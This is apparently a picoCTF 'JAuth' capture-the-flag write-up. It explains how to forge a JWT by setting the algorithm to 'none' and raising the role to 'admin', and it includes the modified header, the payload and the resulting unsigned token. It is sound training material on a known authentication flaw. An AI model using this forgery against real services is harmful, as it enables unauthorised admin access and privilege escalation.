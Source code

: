 # picoCTF - JAuth

The challenge description hints at a potential vulnerability within the website. Upon accessing the site, the initial step is to log in using the provided credentials:

- Username: test
- Password: Test123!

When intercepted through a proxy like Burp, the provided credentials generate a POST request.
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/68c05bc4-a7fa-48e9-9625-57fd8adede53)
Upon forwarding this request, a subsequent GET request is observed, revealing a token. Decoding this token using Base64 reveals its structure:
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/9bb19aa5-4515-4d08-8f12-07bd47e72692)
This token is a JWT (JSON Web Token) composed of three parts:

- Header: `{"typ":"JWT","alg":"HS256"}`
- Payload: `{"auth":1709903626143,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"user","iat":1709903626}`
- Signature: kXaVDzr3FEmIOGMSYYp6wo9PAWrkEU80WO3qzX9_ALA

The header specifies the algorithm used for token signing, which in this case is HS256. This algorithm is used to create a signature to ensures the token's integrity by preventing unauthorized modifications. However, JWT also permits the use of the "none" algorithm. By changing the algorithm to "none" in the header, the server no longer verifies the signature, allowing manipulation of the token.

Thus, by modifying the token's header to:
```
{"typ":"JWT","alg":"none"}
```
and adjusting the role to "admin" while retaining the same authentication ID as requested during login:
```
{"auth":1709905054985,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"admin","iat":1709905055}
```
we create a new token without including the signature. The final token appears as follows:
```
{"typ":"JWT","alg":"none"}{"auth":1709905054985,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"admin","iat":1709905055}
```
Upon Base64 encoding, the manipulated token yields:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzA5OTA1MDU0OTg1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjIuMC42MjYxLjk1IFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDk5MDUwNTV9.
```
This manipulated token successfully grants us administrative privileges and we get our flag:

![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/bfd699e1-b43e-481f-86ad-bde0ca0723ab)
